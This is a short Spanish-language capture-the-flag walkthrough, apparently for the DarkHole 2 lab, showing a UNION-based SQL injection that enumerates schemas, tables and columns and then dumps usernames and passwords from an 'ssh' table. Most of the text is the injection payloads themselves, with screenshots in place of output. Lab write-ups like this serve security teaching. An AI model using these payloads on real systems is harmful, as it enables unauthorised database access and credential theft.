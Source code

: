 ![](Captura%20de%20pantalla%20-2023-07-04%2013-53-09.png)

==En la petición GET podemos añadir la injecction "Sin olvidar URLencodear" para no tener problemas conla peticion seleccionando el texto y utilizando las teclas Ctrl+shift+U
Se busca que el estado de la petición sea un 200 OK

```
' order by 6-- -
```

![](Captura%20de%20pantalla%20-2023-07-04%2013-56-23.png)

```
' union select 1,2,3,4,5,6-- -
```

![](Captura%20de%20pantalla%20-2023-07-04%2014-02-14.png)
![](Captura%20de%20pantalla%20-2023-07-04%2014-02-19.png)


```
' union select 1,2,database(),4,5,6-- -
```

![](Captura%20de%20pantalla%20-2023-07-04%2014-06-25.png)

```
' union select 1,2,schema_name,4,5,6 from information_schema.schemata-- -
```

![](Captura%20de%20pantalla%20-2023-07-04%2014-08-34.png)

```
' union select 1,2,group_concat(schema_name),4,5,6 from information_schema.schemata-- -
```
![](Captura%20de%20pantalla%20-2023-07-04%2014-10-34.png)
![](Captura%20de%20pantalla%20-2023-07-04%2014-11-57.png)
```
' union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema%3d'darkhole_2'-- -
```
![](Captura%20de%20pantalla%20-2023-07-04%2014-20-25.png)
```
' union select 1,2,group_concat(colum_name),4,5,6 from information_schema.columns where table_schema%3d'darkhole_2' and table_name%3d'ssh'-- -
```
![](Captura%20de%20pantalla%20-2023-07-04%2014-23-50.png)
```
' union select 1,2,group_concat(user,0x3a,pass),4,5,6 from ssh-- -
```
![](Captura%20de%20pantalla%20-2023-07-04%2014-26-29.png)
![](Captura%20de%20pantalla%20-2023-07-04%2014-28-01.png)
